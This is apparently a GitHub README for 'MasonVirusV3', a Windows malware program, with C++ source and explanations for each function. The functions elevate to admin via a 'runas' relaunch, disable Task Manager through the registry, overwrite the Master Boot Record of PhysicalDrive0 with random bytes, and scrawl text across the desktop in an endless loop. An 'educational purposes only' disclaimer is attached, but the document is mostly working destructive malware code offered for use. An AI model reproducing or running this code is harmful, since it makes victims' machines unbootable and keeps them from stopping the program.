 # MasonVirusV3

![MasonVirusV3](https://i.ibb.co/R2rKXqY/image.png)

## Overview
This program is a demonstration of various advanced system manipulation techniques, including MBR overwriting, disabling system utilities, and simulating visual and input effects. The following sections explain each part of the code in detail.

---

### Checking for Administrator Privileges
```cpp
bool IsRunningAsAdmin() {
    BOOL isAdmin = FALSE;
    PSID adminGroup;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    if (AllocateAndInitializeSid(&NtAuthority, 2, SECURITY_BUILTIN_DOMAIN_RID, DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &adminGroup)) {
        if (CheckTokenMembership(NULL, adminGroup, &isAdmin) == 0) {
            isAdmin = FALSE;
        }
        FreeSid(adminGroup);
    }
    return isAdmin == TRUE;
}
```

- **Purpose**:  
  This function checks whether the program is running with administrative privileges.

- **How it works**:  
  1. A security identifier (SID) for the "Administrators" group is created using `AllocateAndInitializeSid`.
  2. The program checks if the current process's token belongs to this group using `CheckTokenMembership`.
  3. If the token indicates membership, the function returns `true`, indicating admin privileges.
  4. The SID is freed after use to prevent memory leaks.

---

### Requesting Administrator Privileges
```cpp
void RequestAdminPrivileges() {
    if (!IsRunningAsAdmin()) {
        WCHAR szFilePath[MAX_PATH];
        GetModuleFileName(NULL, szFilePath, MAX_PATH);
        ShellExecute(NULL, L"runas", szFilePath, NULL, NULL, SW_SHOWNORMAL);
        ExitProcess(0);
    }
}
```

- **Purpose**:  
  This function requests administrative privileges if the program is not already running as an administrator.

- **How it works**:  
  1. It checks for admin privileges using `IsRunningAsAdmin`.
  2. If not running as admin, it restarts the program with elevated privileges using `ShellExecute` with the `"runas"` verb.
  3. The current process exits to allow the elevated instance to take over.

---

### Disabling Task Manager
```cpp
void DisableTaskManager() {
    HKEY hKey;
    if (RegOpenKeyEx(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System", 0, KEY_WRITE, &hKey) == ERROR_SUCCESS) {
        DWORD dwData = 1;
        RegSetValueEx(hKey, L"DisableTaskMgr", 0, REG_DWORD, (const BYTE*)&dwData, sizeof(dwData));
        RegCloseKey(hKey);
    }
}
```

- **Purpose**:  
  Disables the Task Manager to prevent the user from terminating the program.

- **How it works**:  
  1. Opens the registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System`.
  2. Sets the value `DisableTaskMgr` to `1`, which disables Task Manager.
  3. Closes the registry key after making changes.

---

### Overwriting the Master Boot Record (MBR)
```cpp
void OverwriteMBR() {
    HANDLE hDrive = CreateFileW(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    if (hDrive == INVALID_HANDLE_VALUE) {
        return;
    }
    BYTE mbrData[MBR_SIZE];
    std::random_device rd;
    std::mt19937 gen(rd());
    std::uniform_int_distribution<> dis(0, 255);
    for (int i = 0; i < MBR_SIZE; i++)
        mbrData[i] = dis(gen);
    DWORD bytesWritten;
    WriteFile(hDrive, mbrData, MBR_SIZE, &bytesWritten, NULL);
    CloseHandle(hDrive);
}
```

- **Purpose**:  
  This function overwrites the Master Boot Record (MBR) of the primary physical drive, effectively rendering the system unbootable.

- **How it works**:  
  1. Opens a handle to the primary physical drive (`PhysicalDrive0`) with write access.
  2. Generates random data to fill a buffer of 512 bytes (the size of the MBR).
  3. Writes this random data to the drive, overwriting the MBR.
  4. Closes the handle to the drive.

- **Warning**:  
  This operation is extremely destructive and should only be executed with a full understanding of its consequences.

---

### Displaying Random Text on the Screen
```cpp
void DisplayRandomText() {
    HDC hdc;
    int sx = 0, sy = 0;
    LPCWSTR lpText = L"ABOLHB"; // ENTER YOUR NAME
    while (true) {
        hdc = GetWindowDC(GetDesktopWindow());
        sx = GetSystemMetrics(SM_CXSCREEN);
        sy = GetSystemMetrics(SM_CYSCREEN);
        TextOutW(hdc, rand() % sx, rand() % sy, lpText, wcslen(lpText));
        Sleep(10);
    }
}
```

- **Purpose**:  
  Randomly displays a predefined text string on the screen at random positions.

- **How it works**:  
  1. Retrieves the device context (HDC) of the desktop window.
  2. Calculates the screen dimensions using `GetSystemMetrics`.
  3. Displays the text at random positions using `TextOutW`.
  4. The function runs in an infinite loop, continuously displaying the text.

---

## Disclaimer
This program contains potentially harmful code, including MBR overwriting, which can permanently damage a computer. Use this code for educational purposes only and at your own risk.

---

## Acknowledgments
- **Coded By**: ABOLHB
- **Group**: FREEMASONRY

### Disclaimer of Liability
The author and group disclaim any liability for misuse of this code. This software is provided "as is" for educational purposes only. Any damage caused by its use is the sole responsibility of the user.



